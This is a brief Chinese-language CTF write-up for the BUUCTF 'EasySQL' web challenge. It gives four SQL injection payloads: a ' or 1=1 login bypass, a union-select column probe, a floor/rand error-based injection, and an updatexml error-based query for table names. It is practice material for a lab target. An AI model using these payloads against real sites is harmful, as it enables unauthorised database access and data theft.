 # WEB方向解题思路

1. 看
2. 点
3. 试
4. 解

# [极客大挑战 2019] EasySQL

BUUCTF: https://buuoj.cn/challenges



## 解题方式1

### 先用万能密码

```mysql
' or 1=1 #
```

## 解题方式2

### 猜测字段数

```
' union select 1,2,3 #
```

## 解题方式3

### 基于`floor`报错注入

```
1' union select 1,count(*),concat((select database()), floor(rand(0)*2))x from information_schema.tables group by x #
```

1.库名

2.表名

3.字段名

4.查结果

## 解题方式4：

### 基于`updatexml`报错注入

```
#查表名
' or updatexml(1,concat('~',(select table_name from information_schema.tables where table schema=database())),1) #
```
